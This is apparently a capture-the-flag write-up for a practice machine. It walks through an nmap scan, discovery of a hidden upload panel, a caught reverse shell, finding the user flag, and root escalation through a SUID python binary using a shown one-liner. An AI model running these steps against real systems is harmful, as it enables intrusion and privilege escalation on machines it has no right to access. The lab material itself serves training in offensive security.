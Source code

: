 

```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS -Pn 10.10.0.131
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 15:58 PDT
Nmap scan report for 10.10.0.131
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.90 seconds

```
Scan the machine, how many ports are open?
2


```
/uploads
Apache/2.4.29 (Ubuntu) Server at 10.10.0.131 Port 80
```
What version of Apache is running?
2.4.29

What service is running on port 22?
ssh

```
/uploads              (Status: 301) [Size: 312] [--> http://10.10.0.131/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.0.131/css/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.0.131/js/]     
/panel                (Status: 301) [Size: 310] [--> http://10.10.0.131/panel/] 
```
What is the hidden directory?
/panel/





```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="../css/panel.css">
    <script src=../"js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="first">
        <div class="main-div">
            <form action="" method="POST" enctype="multipart/form-data">
                <p>Select a file to upload:</p>
                <input type="file" name="fileUpload" class="fileUpload">
                <input type="submit" value="Upload" name="submit">
                
                <p class='erro'>PHP não é permitido!</p>            </form>
        </div>
    </div>
</body>
</html>

```

```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.0.131.
Ncat: Connection from 10.10.0.131:36170.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:34:56 up 38 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
`python -c ‘import pty;pty.spawn(“/bin/bash”)’`

find / -type f -name user.txt

`/var/www/user.txt
`

```
$ cat user.txt
THM{y0u_g0t_a_sh3ll}
```

```
find / -user root -perm /4000
```

`/usr/bin/python`
```
ls -l python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python

```

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

https://gtfobins.github.io/gtfobins/python/#suid

```
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```
